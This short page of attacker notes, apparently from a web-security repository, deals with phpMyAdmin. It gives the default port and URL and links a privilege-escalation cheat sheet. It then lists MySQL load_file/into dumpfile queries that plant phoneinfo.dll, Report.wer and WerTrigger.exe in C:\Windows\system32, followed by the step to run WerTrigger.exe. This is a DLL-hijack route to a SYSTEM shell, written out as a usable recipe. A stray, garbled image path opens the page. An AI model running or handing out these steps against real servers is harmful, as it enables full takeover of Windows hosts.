 ### default port
80
### default url
http://ip:port/phpmyadmin
### phpmyadmin admin account to get system shell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md  
![image](https://github.com/KiritoLoveAsuna/WebApplicationSecurity/assets/38044499/2ff1fa35-dabd-4094-b6f1-8c4bfa05b076)   
Now, we are going to use the Privileged Write to move all of these files to C:\windows\system32 using MySQL.
```
select load_file('C:\\xampp\\htdocs\\phoneinfo.dll') into dumpfile 'C:\\Windows\\system32\\phoneinfo.dll';
select load_file('C:\\xampp\\htdocs\\Report.wer') into dumpfile 'C:\\Windows\\system32\\Report.wer';
select load_file('C:\\xampp\\htdocs\\WerTrigger.exe') into dumpfile 'C:\\Windows\\system32\\WerTrigger.exe';
```
![image](https://github.com/KiritoLoveAsuna/WebApplicationSecurity/assets/38044499/31df7857-e1f2-481d-88af-82142a8d164f)  
Now we can move into C:\windows\system32 and execute WerTrigger.exe
